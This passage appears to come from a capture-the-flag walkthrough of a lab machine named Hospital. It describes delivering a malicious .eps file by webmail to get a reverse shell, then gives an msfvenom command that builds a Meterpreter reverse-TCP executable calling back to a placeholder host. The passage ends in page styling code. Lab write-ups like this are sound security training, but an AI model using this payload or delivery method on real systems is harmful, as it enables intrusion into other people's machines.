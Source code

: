 We send the .eps file to drbrown via webmail. When the file is opened, we receive a reverse shell as drbrown and can read the user.txt, which is located at the Desktop directory.

<img src="https://i.ibb.co/5gy3ChkY/13.png" alt="Hospital" width="750">

<img src="https://i.ibb.co/ZzyyGrnG/14.png" alt="Hospital" width="750">

## Administrator Shell in AD

### Session Enumeration

Once inside as drbrown, we run the `quser` command. It shows that an active desktop session named console is from drbrown open.

We decide to upgrade our shell to Meterpreter for more control.

Steps:

1. Create a malicious exe file, which will get us the meterpreter shell:

<div class="terminal-container">
    <div class="terminal-header">
        <span class="terminal-dot red"></span>
        <span class="terminal-dot yellow"></span>
        <span class="terminal-dot green"></span>
        <span class="terminal-title">Msfvenom Command</span>
        <button class="copy-btn" onclick="copyToClipboard(this)">
            <svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
                <rect x="9" y="9" width="13" height="13" rx="2" ry="2"></rect>
                <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1"></path>
            </svg>
        </button>
    </div>
    <div class="terminal-body">
        <pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe -o meter.exe</code></pre>
    </div>
</div>

<style>
.terminal-container {
    background-color: #121212;
    border-radius: 10px;
    box-shadow: 0 4px 6px rgba(0,0,0,0.2);
    margin: 20px 0;
    overflow: hidden;
    position: relative;
}
.terminal-header {
    background-color: #1c1c1c;
    padding: 10px;
    display: flex;
    align-items: center;
    justify-content: center;
    position: relative;
}
.terminal-dot {
    width: 12px;
    height: 12px;
    border-radius: 50%;
    position: absolute;
    left: 10px;
}
.terminal-dot.red { background-color: #ff3b30; }